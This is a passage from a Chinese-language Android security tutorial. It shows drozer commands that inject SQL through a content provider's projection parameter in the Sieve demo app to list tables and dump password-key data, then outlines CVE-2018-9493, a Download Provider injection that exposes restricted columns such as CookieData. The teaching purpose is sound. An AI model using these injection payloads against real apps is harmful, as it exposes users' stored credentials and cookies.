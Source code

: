 然后我们执行以下命令，发现返回了报错信息，接着构造sql获取敏感数据。

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
```

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

列出所有表信息：

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

获取具体表信息：

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
```

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

列出该app的表信息：

```
run scanner.provider.sqltables -a  com.mwr.example.sieve
```

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

案例3：CVE-2018-9493: Download Provider SQL注入

漏洞分析：

  

Download Provider中的以下columns是不允许被外部访问的，例如CookieData，但是利用SQL注入漏洞可以绕过这个限制。

  

projection参数存在注入漏洞，结合二分法可以爆出某些columns字段的内容。

  

目标代码：

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

攻击代码：

详细可以参考该作者博客：_(https://mabin004.github.io/2019/04/15/Android-Download-Provider%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)_

  

#### （3）安全防护
